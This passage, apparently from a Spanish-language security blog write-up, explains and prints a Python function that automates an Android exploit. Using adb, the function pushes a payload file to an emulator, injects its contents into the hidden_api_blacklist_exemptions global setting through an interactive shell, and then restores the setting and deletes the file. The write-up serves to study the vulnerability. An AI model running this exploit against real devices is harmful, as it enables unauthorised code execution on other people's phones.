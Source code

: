 ### Exploit

La función que ejecuta los pasos del exploit realiza lo mismo que antes hacíamos manualmente: escribe la _payload_ en un archivo, la sube al emulador, modifica el valor de `hidden_api_blacklist_exemptions`, luego lo restablece a "null" y, finalmente, abre la aplicación _Settings_ para evitar tener que ir manualmente a la configuración para que el exploit funcione nuevamente. Notemos que al inicio de la función también se envía un comando para cerrar _Settings_, asegurando que al final se abra completamente.

Es importante destacar que, al asignar el valor de la _payload_ a la variable `hidden_api_blacklist_exemptions`, no usamos la función definida al principio para interactuar con `adb`, porque este paso específico no funcionaba directamente con `adb shell ...` desde la computadora. Solo funcionaba entrando a la _shell interactiva_ y ejecutando el comando desde ahí, lo que disparaba la vulnerabilidad.

{% highlight python linenos %}
def exploit(payload):
    # Generate and upload payload
    with open("payload.txt", 'w') as f:
        f.write(payload)
    send_adb_command("adb push payload.txt /data/local/tmp")

    # close settings app if open
    send_adb_command("adb shell am force-stop com.android.settings")

    # Starting an interactive shell, is how it works.
    p = subprocess.Popen("adb shell",shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    (child_stdin, child_stdout, child_stderr) = (p.stdin, p.stdout, p.stderr)

    # Setting hidden_api_blacklist_exemptions with the payload
    p.stdin.write(str.encode("settings put global hidden_api_blacklist_exemptions \"$(cat /data/local/tmp/payload.txt)\""))

    # close process pipes
    p.stdin.close()
    p.wait()

    # post exploitation stuff so the phone "backs to normal.
    send_adb_command("adb shell settings put global hidden_api_blacklist_exemptions null")
    send_adb_command("adb shell am start -a android.settings.SETTINGS")
		
    # Delete payload from phone.
    send_adb_command("adb shell rm /data/local/tmp/payload.txt")
{% endhighlight %}
